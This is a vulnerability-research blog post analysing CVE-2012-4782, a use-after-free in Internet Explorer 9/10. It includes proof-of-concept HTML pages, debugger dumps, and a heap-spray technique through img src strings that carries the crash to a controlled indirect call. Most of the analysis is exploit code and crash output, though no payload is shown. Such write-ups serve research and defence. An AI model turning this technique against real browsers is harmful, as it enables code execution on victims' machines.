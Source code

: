 ```yaml
---
title: 'CMarkup Use After Free Vulnerability &#8211; CVE-2012-4782'
author: suto
layout: post

aktt_notify_twitter:
  - no
shorturls:
  - 'a:0:{}'
tweetbackscheck:
  - 1408358874
kopa_newsmixlight_total_view:
  - 3
category: research
tags:
  - 0day
  - bug
  - Exploitation
  - Internet explorer
---
```

Latest M$ tuesday patch kill one of my 0day in Microsoft Internet Explorer 9/10. So I decided release Proof Of Concept code and writeup some analyze about this bug. Hope it helpful.

Here is the PoC:

<pre class="brush: xml; title: ; notranslate" title="">&lt;!doctype html&gt;
&lt;html&gt;
        &lt;head&gt;
                &lt;meta http-equiv="X-UA-Compatible" content="IE=EmulateIE8" /&gt;
               &lt;script&gt;
                       function testcase(){
                                document.body.appendChild(document.createElement('progress'));
                                document.body.appendChild(document.createElement("&lt;track style='float:right'&gt;&lt;/track&gt;"));
                                document.body.appendChild(document.createElement('progress'));
                                document.body.appendChild(document.createElement('table'));
                                document.body.appendChild(document.createElement("&lt;track style='float:right'&gt;&lt;/track&gt;"));
                            document.getElementsByTagName('progress').item(0).appendChild(document.createElement('frameset'));
                                document.getElementsByTagName('track').item(0).offsetWidth;

                                document.getElementsByTagName('progress').item(1).appendChild(document.getElementsByTagName('track').item(0));
                                document.body.appendChild(document.createElement("&lt;ins style='margin-left:2222222222px'&gt;&lt;/ins&gt;"));

                &lt;/script&gt;
        &lt;/head&gt;
        &lt;body onload='testcase();'&gt;

        &lt;/body&gt;
&lt;/html&gt;
</pre>

After running this html we&#8217;ve got a nice crash:  
`(fcc.354): Access violation - code c0000005 (!!! second chance !!!)<br />
eax=0b7befc0 ebx=088cd6b8 ecx=0b6b2fa8 edx=00000006 esi=0b6b2fa8 edi=00000000<br />
eip=639927e9 esp=088cd1c8 ebp=088cd1d0 iopl=0         nv up ei pl nz na po nc<br />
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010202<br />
MSHTML!CTreeNode::GetFancyFormat+0xc:<br />
639927e9 0fb74640        movzx   eax,word ptr [esi+40h]   ds:0023:0b6b2fe8=0000<br />
0:017> u<br />
MSHTML!CTreeNode::GetFancyFormat+0xc:<br />
639927e9 0fb74640        movzx   eax,word ptr [esi+40h]<br />
639927ed 6685c0          test    ax,ax<br />
`

Now using my binary instrumentation framework (a PIN based instrumentation which could do things like: crash analyze, taint tracing, code coverage..), I could get the following output

`<br />
Exception Point: 639927e9 0fb74640        movzx   eax,word ptr [esi+40h]<br />
Current Register:<br />
eax:0b7befc0<br />
esi:0b6b2fa8<br />
Backtrace analyze:<br />
[+]639927e7 -> esi: 0b6b2fa8 | ecx: 0b6b2fa8<br />
[+]639927e5 -> ecx: 0b6b2fa8<br />
[+]636c1d2d -> ecx:0b6b2fa8<br />
[+]639ae295 -> esi: 0b6b2fa8<br />
===================<br />
Detect Freed Address: 0b6b2fa8 at EIP 639AE299<br />
With param: HeapFree(150000,23,0b6b2fa8)<br />
`

So it is a pretty nice Used After Free vulnerability. But what is freed?

Run the tool again, this time to collect information about Heap Allocate, I can see:  
`<br />
.....<br />
Detect Heap Allocate : 638f13dc<br />
With Param: HeapAlloc(150000, 8u, 0x54)<br />
Return value: 0b6b2fa8`

And it occur in function:  
`CMarkup::InsertElementInternal`  
So now we can use a little trick to manipulate freed address:

<pre class="brush: xml; title: ; notranslate" title="">&lt;!doctype html&gt;
&lt;html&gt;
	&lt;head&gt;
		&lt;meta http-equiv="X-UA-Compatible" content="IE=EmulateIE8" /&gt;

		&lt;script&gt;

                function testcase(){

				var img = new Array();
				  for(var i = 0;i &lt; 100;i++){
				  	img[i] = document.createElement('img');
				  	img[i]["src"] = "a";
				  }
				document.body.appendChild(document.createElement('progress'));
				document.body.appendChild(document.createElement("&lt;track style='float:right'&gt;&lt;/track&gt;"));
				document.body.appendChild(document.createElement('progress'));
				document.body.appendChild(document.createElement('table'));
				document.body.appendChild(document.createElement("&lt;track style='float:right'&gt;&lt;/track&gt;"));
			    document.getElementsByTagName('progress').item(0).appendChild(document.createElement('frameset'));
				document.getElementsByTagName('track').item(0).offsetWidth;

				document.getElementsByTagName('progress').item(1).appendChild(document.getElementsByTagName('track').item(0));
				document.body.appendChild(document.createElement("&lt;ins style='margin-left:2222222222px'&gt;&lt;/ins&gt;"));

				window.scroll(500);

				for(var j = 0;j &lt; 99;j++){
				 	img[j]["src"] = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";}

				 }

		&lt;/script&gt;
	&lt;/head&gt;
	&lt;body onload='testcase();'&gt;

	&lt;/body&gt;
&lt;/html&gt;
</pre>

And we&#8217;ve got:  
`<br />
(c10.d88): Access violation - code c0000005 (!!! second chance !!!)<br />
eax=00000041 ebx=088cd6b8 ecx=00410041 edx=ff000000 esi=0c53efa8 edi=00000000<br />
eip=639927ff esp=088cd1c8 ebp=088cd1d0 iopl=0         nv up ei pl nz na pe nc<br />
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010206<br />
MSHTML!CTreeNode::GetFancyFormat+0x1e:<br />
639927ff 8b4a2c          mov     ecx,dword ptr [edx+2Ch] ds:0023:ff00002c=????????<br />
0:017> dd esi<br />
0c53efa8  00410041 00410041 00410041 00410041<br />
0c53efb8  00410041 00410041 00410041 00410041<br />
0c53efc8  00410041 00410041 00410041 00410041<br />
0c53efd8  00410041 00410041 00410041 00410041<br />
0c53efe8  00410041 00410041 00410041 00410041<br />
0c53eff8  00410041 d0d00000 ???????? ????????<br />
0c53f008  ???????? ???????? ???????? ????????<br />
0c53f018  ???????? ???????? ???????? ????????<br />
0:017> dd 410041<br />
00410041  b341be78 7274f8ac 18ea3e88 3c00005c<br />
00410051  ff000000 4dffffff cbb7a93b b0487827<br />
00410061  ebd03627 48a7a85f 3d00005c ff000000<br />
00410071  98ffffff 9b1b1704 a14da1bb 315fec5b<br />
00410081  74f7c784 3e00005c ff000000 f0ffffff<br />
00410091  0d343fb3 ae43076f 1b2599a9 a86d9aad<br />
004100a1  3f00005c ff000000 93ffffff ddca1f10<br />
004100b1  844c01b0 ebee76ab dc391fca 4000005c<br />
0:017> u<br />
`  
Why it crashing here:  
`<br />
.text:639927E9                 movzx   eax, word ptr [esi+40h]<br />
.text:639927ED                 test    ax, ax<br />
.text:639927F0                 js      loc_63842DAE<br />
.text:639927F6                 mov     ecx, [esi+50h]<br />
.text:639927F9                 mov     edx, [ecx+80h]<br />
.text:639927FF                 mov     ecx, [edx+2Ch]`  
Since we can control esi, we can force program to jump 63842DAE by changing some bytes in img.src:  
`<br />
..<br />
img[j]["src"] = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAu8141u4141AAAAAAAA";}<br />
....<br />
`

`<br />
(614.fd4): Access violation - code c0000005 (!!! second chance !!!)<br />
eax=00000000 ebx=00000000 ecx=00410041 edx=b341be78 esi=088ccc00 edi=0c540fa8<br />
eip=6383a61a esp=088ccbe0 ebp=088ccbf0 iopl=0         nv up ei pl zr na pe nc<br />
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010246<br />
MSHTML!CTreeNode::ComputeFormats+0xa1:<br />
6383a61a 8b82c4000000    mov     eax,dword ptr [edx+0C4h] ds:0023:b341bf3c=????????<br />
0:017> dd edi<br />
0c540fa8  00410041 00410041 00410041 00410041<br />
0c540fb8  00410041 00410041 00410041 00410041<br />
0c540fc8  00410041 00410041 00410041 00410041<br />
0c540fd8  00410041 00410041 00410041 00410041<br />
0c540fe8  41418141 00410041 00410041 00410041<br />
0c540ff8  00410041 d0d00000 ???????? ????????<br />
0c541008  ???????? ???????? ???????? ????????<br />
0c541018  ???????? ???????? ???????? ????????<br />
0:017> dd ecx<br />
00410041  b341be78 7274f8ac 18ea3e88 3c00005c<br />
00410051  ff000000 4dffffff cbb7a93b b0487827<br />
00410061  ebd03627 48a7a85f 3d00005c ff000000<br />
00410071  98ffffff 9b1b1704 a14da1bb 315fec5b<br />
00410081  74f7c784 3e00005c ff000000 f0ffffff<br />
00410091  0d343fb3 ae43076f 1b2599a9 a86d9aad<br />
004100a1  3f00005c ff000000 93ffffff ddca1f10<br />
004100b1  844c01b0 ebee76ab dc391fca 4000005c<br />
`

And we change edi:  
`<br />
img[j]["src"] = "AAAAAAAAAAAAAAAAAAAAAAAAu5555u5555AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAu8141u4141AAAAAAAA";}<br />
`

And Boom:  
`<br />
eax=00000000 ebx=00000000 ecx=55555555 edx=640386e0 esi=088ccc00 edi=0c678fa8<br />
eip=6383a618 esp=088ccbe0 ebp=088ccbf0 iopl=0         nv up ei pl zr na pe nc<br />
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010246<br />
MSHTML!CTreeNode::ComputeFormats+0x9f:<br />
6383a618 8b11            mov     edx,dword ptr [ecx]  ds:0023:55555555=????????<br />
0:017> u<br />
MSHTML!CTreeNode::ComputeFormats+0x9f:<br />
6383a618 8b11            mov     edx,dword ptr [ecx]<br />
6383a61a 8b82c4000000    mov     eax,dword ptr [edx+0C4h]<br />
6383a620 ffd0            call    eax<br />
6383a622 8b400c          mov     eax,dword ptr [eax+0Ch]<br />
6383a625 57              push    edi<br />
6383a626 893e            mov     dword ptr [esi],edi<br />
6383a628 894604          mov     dword ptr [esi+4],eax<br />
6383a62b 8b0f            mov     ecx,dword ptr [edi]`

Good luck pwner :p